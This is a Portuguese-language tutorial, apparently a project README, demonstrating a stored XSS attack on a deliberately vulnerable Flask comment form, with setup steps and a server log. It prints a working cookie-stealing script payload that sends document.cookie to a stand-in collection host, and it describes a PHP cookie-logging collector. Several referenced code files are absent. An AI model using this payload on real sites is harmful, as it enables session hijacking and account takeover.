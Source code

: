 # Estudo de Caso: Vulnerabilidade em Formulário de Comentários

# Cenário:

Imagine uma aplicação de blog simples que permite aos usuários postar comentários em artigos. O formulário de comentários tem um campo de texto para o nome do usuário e outro para o conteúdo do comentário. O código do servidor recebe esses dados e os insere diretamente em uma página HTML que é exibida para outros usuários, sem qualquer tipo de validação ou sanitização.

Para executar o estudo de caso de vulnerabilidade em formulários de comentários e demonstrar o ataque de XSS persistente, você precisará simular o ambiente de uma aplicação web vulnerável.

A vulnerabilidade ocorre quando a aplicação não sanitiza a entrada do usuário antes de armazená-la no banco de dados e exibi-la para outros usuários.

# Passo 1: Simulação da Aplicação Vulnerável

Primeiro, você precisa de um código de servidor simples que tenha a vulnerabilidade. Usarei um exemplo em Python com o framework Flask, que é fácil de configurar.

Código Python (app.py):

Observação sobre a vulnerabilidade: A linha {{ comment | safe }} no template é intencionalmente vulnerável. O filtro | safe no Jinja2 (motor de template do Flask) desabilita a sanitização automática, fazendo com que o HTML injetado seja renderizado.

# Passo 2: Configurando o Servidor de Coleta de Cookies

Para demonstrar o roubo de cookies, você precisa de um servidor que "colete" as requisições maliciosas. Rodar o arquivo .php em um servidor Web (Ex.: Apache)

Código PHP (coletar_cookie.php):

Este script simplesmente pega o valor do cookie da URL e o salva em um arquivo de texto no servidor.

# Passo 3: Execução do Ataque

Com os dois servidores prontos, siga os passos abaixo para realizar o ataque:

Inicie o servidor da aplicação vulnerável: Execute python app.py no seu terminal. Ele estará rodando em http://127.0.0.1:5000.

Inicie o servidor de coleta de cookies: Coloque o arquivo coletar_cookie.php em um servidor web (como Apache ou Nginx) ou use uma ferramenta de tunelamento como o ngrok para expor seu servidor local à internet. Anote a URL.

Acesse a página vulnerável em http://127.0.0.1:5000.

Crie a carga maliciosa: No campo de comentário, insira o seguinte script. Substitua http://seu-servidor-de-coleta.com pela URL do seu servidor Flask.

HTML
<script>
    document.write('<img src="http://seu-servidor-de-coleta.com/coletar_cookie.php?cookie=' + document.cookie + '">');
</script>

Envie o comentário: Clique em "Enviar". A página irá recarregar e exibir a mensagem de sucesso.

Verifique o ataque: Volte para a página inicial da aplicação (http://127.0.0.1:5000). O navegador, ao renderizar o comentário, executará o script. Ele tentará carregar a imagem, o que fará uma requisição GET para o seu servidor de coleta, enviando o cookie.

Confirme o sucesso: Verifique o seu servidor de coleta. O arquivo cookies_roubados.txt deve ter sido criado e conter o cookie roubado.








# Código Vulnerável (Exemplo Simplificado em Python com Flask):




### Código em Python ### 
formulario.py

# O Ataque:

Um atacante, ciente de que o código não valida a entrada, pode usar o campo de comentário para injetar um código malicioso. Em vez de escrever um comentário normal, ele pode inserir um script JavaScript:

Conteúdo do Comentário do Atacante:

###  Código em HTML - Inserir esse código dentro do formulário ### 
ataque.html 

# Resultado:

Quando o comentário é postado e outro usuário acessa a página para ler os comentários, o navegador desse usuário interpretará a string injetada como um script JavaScript. O script será executado no contexto da página do blog, que é um ambiente confiável para o navegador. O script malicioso, então, roubará os cookies de sessão do usuário (que podem conter informações de autenticação) e os enviará para o servidor do atacante. O atacante pode usar esses cookies para se passar pelo usuário e obter acesso não autorizado à sua conta.

# COMO EXECUTAR - Sugestão - Utiizar ambiente Linux

1 - Necessário python instalado máquina
2- Instalar a biblioteca Flask -  pip install Flask
3 - Executar o arquivo em python - python3 formulario.py

(base) alex@iMac-de-Alex example_01 % python3 formulario.py
 * Serving Flask app 'formulario'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 647-019-061

A Bilbioteca Flask é um framework WSGI leve para aplicações web. Ele foi projetado para tornar os primeiros passos rápidos e fáceis, com capacidade de expansão para aplicações complexas. Comece com a Instalação e, em seguida, obtenha uma visão geral com o Início Rápido .

4 - Abrir o browser na página http://127.0.0.1:5000